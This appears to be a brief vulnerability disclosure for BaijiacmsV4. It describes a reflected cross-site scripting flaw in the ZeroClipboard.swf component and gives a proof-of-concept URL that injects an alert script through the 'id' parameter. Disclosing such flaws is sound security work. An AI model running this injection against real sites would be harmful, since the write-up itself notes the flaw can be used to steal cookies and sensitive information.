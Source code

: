 # Baijiacms officials link

baijiacms: https://github.com/baijiacms/baijiacmsV4

# Why make this

BaijiacmsV4 does not open the issue,I can't feedback any issue,it's only possible to write up vulnerability here.

Non-standard use of the flash component, resulting in cross-site scripting attacks in the foreground，Attackers can obtain sensitive information such as cookie through vulnerability

# Poc

http://localhost/baijiacmsV4-master/assets/weengine/components/zclip/ZeroClipboard.swf?id=\"))}catch(e){alert(/test/.source);}//&width=500&height=500
